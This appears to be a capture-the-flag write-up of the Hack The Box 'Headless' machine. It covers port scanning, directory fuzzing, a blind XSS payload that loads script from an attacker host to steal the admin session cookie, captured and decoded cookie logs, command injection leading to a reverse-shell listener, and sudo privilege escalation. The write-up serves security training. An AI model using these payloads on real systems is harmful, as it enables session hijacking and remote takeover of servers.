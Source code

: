```yaml
---
title: "test"
date: 2025-01-21 00:00:00 +0800
categories: [test, testing]
tags: [hacker, news, things]
image: /assets/img/Pasted image 20240614174227.png
alt: "image alt text"
---
```


## title1

i started a simple scan with nmap to determine open ports 
```bash
nmap 10.10.11.8 -oN nmap.txt -vvv
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 10:35 EDT
Initiating Ping Scan at 10:35
Scanning 10.10.11.8 [2 ports]
Completed Ping Scan at 10:35, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:35
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Completed Parallel DNS resolution of 1 host. at 10:35, 4.05s elapsed
DNS resolution of 1 IPs took 4.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 2, CN: 0]
Initiating Connect Scan at 10:35
Scanning 10.10.11.8 [1000 ports]
Discovered open port 22/tcp on 10.10.11.8
Discovered open port 5000/tcp on 10.10.11.8
Completed Connect Scan at 10:35, 2.90s elapsed (1000 total ports)
Nmap scan report for 10.10.11.8
Host is up, received conn-refused (0.069s latency).
Scanned at 2024-06-14 10:35:49 EDT for 3s
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
5000/tcp open  upnp    syn-ack
```

## title 2

so after know open ports i start another scan but this time specifying open ports 
```bash
nmap -p5000,22 -sCV 10.10.11.8   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 10:40 EDT
Nmap scan report for 10.10.11.8
Host is up (0.064s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Fri, 14 Jun 2024 14:40:31 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=6/14%Time=666C565F%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Fri,\x2014\x20Jun\x202024\x2014:40:31\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## title 3

we have just 2 open ports one is SSH and another in upnp and there is a web site hosting after enumerating manullay web page and source code i did not find anything interssting so a fuzz direcotries using `feroxbuster` 

```bash
feroxbuster -u http://10.10.11.8:5000/                                                                              
                                                                                                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.8:5000/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://10.10.11.8:5000/support
200      GET       96l      259w     2799c http://10.10.11.8:5000/
500      GET        5l       37w      265c http://10.10.11.8:5000/dashboard
[####################] - 81s    30001/30001   0s      found:3       errors:0      
[####################] - 81s    30000/30000   371/s   http://10.10.11.8:5000/ 
```
there is a dashboard page so if we send request we will get error 
```bash
curl http://10.10.11.8:5000/dashboard
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

```
this is the home page
![[Pasted image 20240622170516.png]]
after clicking in for question it lead to this path support
![[Pasted image 20240622170601.png]]

 i notice when sending `<>` tags
 ![[Pasted image 20240622170705.png]]
  it's will display hacking attempt detected
  ![[Pasted image 20240622170727.png]]
 so i decide to use this tag `<script src="http://OUR_IP/script.js"></script>` with you server web ip address (like running python server) i got a response from the server so it's vulnerable to xss blind injection so let's use this tag to steal admin session cookie and i run i python server with the command `python -m http.server 80`
![[Pasted image 20240614175153.png]]
and i got session cookies of the admin
```bash
┌──(kali㉿kali)-[~/…/ctf/htb/app/Headless]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.36 - - [14/Jun/2024 11:15:54] "GET /?cookie= HTTP/1.1" 200 -
10.10.11.8 - - [14/Jun/2024 11:16:17] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
let's decode 
```
┌──(kali㉿kali)-[~/…/ctf/htb/app/Headless]
└─$ echo 'aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=' |base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0  
```
let's use this session cookie in our browser or in burp suit and this is the admin page
![[Pasted image 20240614175210.png]]
if we intercept the generated report with burp suit and add and OS command it's will be executed so i generate and reversehell code 
![[Pasted image 20240614175135.png]]

and i start my listener with the same port of the shell
```
┌──(kali㉿kali)-[~/…/ctf/htb/app/Headless]
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.36] from (UNKNOWN) [10.10.11.8] 47590
bash: cannot set terminal process group (1351): Inappropriate ioctl for device
bash: no job control in this shell
````
as you see we got shell as user dvir 
```
dvir@headless:~/app$ ls
ls
app.py
dashboard.html
hackattempt.html
hacking_reports
index.html
initdb.sh
inspect_reports.py
report.sh
support.html
````
so i download linpeas on this machine and after run it i found this hint
![[Pasted image 20240614175118.png]]
so we can run `syscheck` as root without needing root password
```
dvir@headless:~$ sudo /usr/bin/syscheck /bin/bash -p
sudo /usr/bin/syscheck /bin/bash -p
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.8G
System load average:  0.08, 0.45, 0.47
Database service is not running. Starting it...
id

```
